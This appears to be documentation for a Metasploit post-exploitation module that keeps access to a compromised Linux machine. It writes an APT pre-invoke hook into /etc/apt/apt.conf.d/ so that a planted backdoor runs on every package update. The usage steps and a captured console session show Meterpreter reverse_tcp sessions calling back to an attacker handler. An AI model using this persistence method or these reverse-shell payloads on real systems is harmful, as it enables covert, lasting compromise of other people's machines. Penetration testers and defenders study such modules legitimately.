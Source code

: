 ## Description

This module will run a payload when the package manager is used. No
handler is ran automatically so you must configure an appropriate
exploit/multi/handler to connect. This module creates a pre-invoke hook
for APT in apt.conf.d. The hook name syntax is numeric followed by text.

## Verification Steps

1. Exploit a box that uses APT
2. `use linux/local/apt_package_manager_persistence`
3. `set SESSION <id>`
4. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
5. `exploit`

When the system runs apt-get update the payload will launch.  You must set handler accordingly.

## Options

**BACKDOOR_NAME**

Name of backdoor executable

**HOOKNAME**

Name of pre-invoke hook to be installed in /etc/apt/apt.conf.d/. Pre-invoke hook name syntax is numeric followed by text.

**WritableDir**

Writable directory for backdoor default is (/usr/local/bin/)

## Scenarios

### Tested on Ubuntu 18.04.2 LTS

```
msf5 > use exploit/linux/local/apt_package_manager_persistence
msf5 exploit(linux/local/apt_package_manager_persistence) > handler -p linux/x86/meterpreter/reverse_tcp -H 172.22.222.136 -P 4444
[*] Payload handler running as background job 0.
msf5 exploit(linux/local/apt_package_manager_persistence) > 
[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] Sending stage (985320 bytes) to 172.22.222.130
[*] Meterpreter session 1 opened (172.22.222.136:4444 -> 172.22.222.130:60526) at 2019-04-26 13:04:33 -0500

msf5 exploit(linux/local/apt_package_manager_persistence) > set session 1
session => 1
msf5 exploit(linux/local/apt_package_manager_persistence) > set payload linux/x86/meterpreter/reverse_tcp 
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/local/apt_package_manager_persistence) > set lhost 172.22.222.136 
lhost => 172.22.222.136
msf5 exploit(linux/local/apt_package_manager_persistence) > set lport 4444
lport => 4444
msf5 exploit(linux/local/apt_package_manager_persistence) > exploit

[*] Attempting to write hook:
[*] Wrote /etc/apt/apt.conf.d/34bmUIzfd
[*] Backdoor uploaded /usr/local/bin/dbmqKeh6U9
[*] Backdoor will run on next APT update
msf5 exploit(linux/local/apt_package_manager_persistence) > 
[*] Sending stage (985320 bytes) to 172.22.222.130
[*] Meterpreter session 2 opened (172.22.222.136:4444 -> 172.22.222.130:60528) at 2019-04-26 13:05:17 -0500

msf5 exploit(linux/local/apt_package_manager_persistence) >
```

Note: Second session comes in after running `apt update` on the remote host

